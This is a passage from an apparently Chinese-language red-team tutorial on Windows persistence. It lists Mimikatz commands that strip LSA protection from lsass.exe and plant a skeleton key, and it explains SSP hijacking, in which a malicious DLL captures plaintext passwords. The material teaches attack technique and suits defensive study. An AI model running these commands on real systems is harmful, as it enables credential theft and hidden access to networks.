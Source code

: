 #### [](#225-%E7%BB%95%E8%BF%87-lsa-protection)2.2.5 绕过 LSA Protection

Mimikatz 命令：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```powershell<br>privilege::debug<br>!+<br>!processprotect /process:lsass.exe /remove<br>misc::skeleton<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209095049.png-water_print](assets/1699409504-d71e2099fc0bd2aad070539dbd56547f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209095049.png-water_print")

### [](#23-ssp-%E5%8A%AB%E6%8C%81)2.3 SSP 劫持

**SSP**

> SSP (Security Support Provider)，是 windows 操作系统安全机制的提供者。简单的说，SSP 就是 DLL 文件，主要用于 windows 操作系统的身份认证功能，例如 NTLM、Kerberos、Negotiate、Secure Channel(Schannel)、Digest、Credential(CredSSP)

**SSPI**

> SSPI(Security Support Provider Interface) 是 windows 操作系统在执行认证操作时使用的 API 接口。可以说 SSPI 就是 SSP 的 API 接口。

**LSA**

> Local Security Authority，用于身份认证，常见进程为 lsass.exe

如果获得目标系统 system 权限，可以使用该方法进行持久化操作。其主要原理是：LSA(Local Security Authority) 用于身份验证。Isass.exe 作为 windows 的系统进程，用于本地安全和登录策略；

在系统启动时，SSP 将被加载到 lsass.exe 进程中。但是，假如攻击者对 LSA 进行了扩展，自定义了恶意的 DLL 文件在系统启动时将其加载到 lsass.exe 进程中，就能够获取 lsass.exe 进程中的明文密码。这样即使用户更改密码并重新登录，攻击者依然可以获得该账号的新密码。
